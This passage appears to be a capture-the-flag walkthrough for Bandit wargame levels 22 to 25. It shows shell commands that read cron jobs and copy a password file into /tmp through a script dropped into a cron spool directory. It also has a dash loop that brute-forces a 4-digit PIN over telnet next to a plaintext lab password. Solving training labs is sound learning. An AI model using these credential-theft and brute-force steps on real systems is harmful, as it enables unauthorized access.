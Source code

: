 ```
cat /etc/cron.d/cronjob_bandit22

cat /usr/bin/cronjob_bandit22.sh 
```

## Level 23

The user's `crontab` writes the contents of their password file to a file readable by everyone in `/tmp`.

```
cat /etc/cron.d/cronjob_bandit23 

cat /usr/bin/cronjob_bandit23.sh 

echo I am user bandit23 | md5sum | cut -d ' ' -f 1

cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

## Level 24

The `crontab` runs every minute, executes scripts in `/var/spool/bandit24`, then removes them. If the script is owned by `bandit23`, it waits 60 seconds to kill the script.

1. Write this oneliner to a script and make it executable.

```
vi 24.sh
chmod +x 24.sh
```

```
#! /usr/bin/env bash

cat /etc/bandit_pass/bandit24 | tee /tmp/path/bandit24
```

2. Replace `/tmp/path` with whatever was created by `mktemp -d`
3. Copy `24.sh` to `/var/spool/bandit24` and wait for the next minute

## Level 25

```
#! /usr/bin/env dash

# Execute the script, then pipe to telnet
# /path/to/script | telnet $host $port

# Wait for a telnet prompt
sleep 1

# Iterate i from 0 to 10000 to brute force the PIN
n=0
while [ $n -le 10000 ]
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $n"
    n=$((n + 1))
    # telnet closes the connection if there is no wait period between attempts
    sleep .1
done
```
